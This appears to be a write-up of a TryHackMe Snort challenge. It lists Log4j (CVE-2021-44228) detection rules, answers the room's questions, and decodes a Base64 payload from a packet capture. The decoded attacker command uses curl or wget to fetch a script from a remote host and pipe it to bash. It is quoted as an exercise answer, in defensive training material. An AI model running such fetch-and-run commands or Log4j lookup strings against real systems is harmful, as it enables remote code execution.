alert tcp any any -> any any (msg:"FOX-SRT – Exploit – Possible Apache Log4j Exploit Attempt in HTTP Header"; flow:established, to_server; content:"${"; http_header; fast_pattern; content:"}"; http_header; distance:0; flowbits:set, fox.apachelog4j.rce.loose;  priority:3; threshold:type limit, track by_dst, count 1, seconds 3600; reference:url, http://www.lunasec.io/docs/blog/log4j-zero-day/; reference:url, https://twitter.com/testanull/status/1469549425521348609; metadata:CVE 2021-44228; metadata:created_at 2021-12-11; metadata:ids suricata; sid:21003732; rev:1;) 

alert tcp any any -> any any (msg:"FOX-SRT – Exploit – Possible Apache Log4j Exploit Attempt in URI"; flow:established,to_server; content:"${"; http_uri; fast_pattern; content:"}"; http_uri; distance:0; flowbits:set, fox.apachelog4j.rce.loose;  priority:3; threshold:type limit, track by_dst, count 1, seconds 3600; reference:url, http://www.lunasec.io/docs/blog/log4j-zero-day/; reference:url, https://twitter.com/testanull/status/1469549425521348609; metadata:CVE 2021-44228; metadata:created_at 2021-12-11; metadata:ids suricata; sid:21003733; rev:1;) 

# Better and stricter rules, also detects evasion techniques
alert tcp any any -> any any (msg:"FOX-SRT – Exploit – Possible Apache Log4j Exploit Attempt in HTTP Header (strict)"; flow:established,to_server; content:"${"; http_header; fast_pattern; content:"}"; http_header; distance:0; pcre:"/(\$\{\w+:.*\}|jndi)/Hi"; reference:url,www.lunasec.io/docs/blog/log4j-zero-day/; reference:url,https://twitter.com/testanull/status/1469549425521348609; metadata:CVE 2021-44228; metadata:created_at 2021-12-11; metadata:ids suricata; priority:3; sid:21003734; rev:1;) 

alert tcp any any -> any any (msg:"FOX-SRT – Exploit – Possible Apache Log4j Exploit Attempt in URI (strict)"; flow:established, to_server; content:"${"; http_uri; fast_pattern; content:"}"; http_uri; distance:0; pcre:"/(\$\{\w+:.*\}|jndi)/Ui"; reference:url,https://twitter.com/testanull/status/1469549425521348609; metadata:CVE 2021-44228; metadata:created_at 2021-12-11; metadata:ids suricata; priority:3; sid:21003735; rev:1;) 

alert tcp any any -> any any (msg:"FOX-SRT – Exploit – Possible Apache Log4j Exploit Attempt in Client Body (strict)"; flow:to_server; content:"${"; http_client_body; fast_pattern; content:"}"; http_client_body; distance:0; pcre:"/(\$\{\w+:.*\}|jndi)/Pi"; flowbits:set, fox.apachelog4j.rce.strict; reference:url,www.lunasec.io/docs/blog/log4j-zero-day/; reference:url,https://twitter.com/testanull/status/1469549425521348609; metadata:CVE 2021-44228; metadata:created_at 2021-12-12; metadata:ids suricata; priority:3; sid:21003744; rev:1;)


```
- `sudo snort -c ./local.rules -dev -l . -r log4j.pcap`
What is the number of detected packets?

- 26

Investigate the log/alarm files.

- `less alert`
- `egrep "1:210037*" alert | sort -u`

How many rules were triggered?.

- 4

Investigate the log/alarm files.

What are the first six digits of the triggered rule sids?

- 210037

Clear the previous log and alarm files.

- `sudo rm alert snort.log.<number>`

Use local-1.rules empty file to write a new rule to detect packet payloads between 770 and 855 bytes.

- `alert tcp any any <> any any (msg:"Abnormal packet size detected"; dsize:770<>855; sid:1000001; rev:1)`
- `sudo snort -c local-1.rules -dev -l . -r log4j.pcap`

What is the number of detected packets?

- 41

Investigate the log/alarm files.

- `sudo snort -r snort.log.<number> -d`

What is the name of the used encoding algorithm?

- Base64

Investigate the log/alarm files.
- 

What is the IP ID of the corresponding packet?

- 62808

Investigate the log/alarm files.

- KGN1cmwgLXMgNDUuMTU1LjIwNS4yMzM6NTg3NC8xNjIuMC4yMjguMjUzOjgwfHx3Z2V0IC1xIC1PLSA0NS4xNTUuMjA1LjIzMzo1ODc0LzE2Mi4wLjIyOC4yNTM6ODApfGJhc2g=}

Decode the encoded command.

- save base64 to decode.txt
- `base64 -d decode.txt`

What is the attacker's command?

- (curl -s 45.155.205.233:5874/162.0.228.253:80||wget -q -O- 45.155.205.233:5874/162.0.228.253:80)|bash

What is the CVSS v2 score of the Log4j vulnerability?

- [https://nvd.nist.gov/vuln/detail/CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)
- 9.3

### _**Conclusion**_
Congratulations! Are you brave enough to stop a live attack in the [Snort2 Challenge 2](https://tryhackme.com/room/snortchallenges2) room?

## **--Snort Challenge - Live Attacks--**

### _**Introduction**_
The room invites you to a challenge where you will investigate a series of traffic data and stop malicious activity under two different scenarios. Let's start working with Snort to analyse live and captured traffic.

### _**Scenario 1 | Brute-Force**_

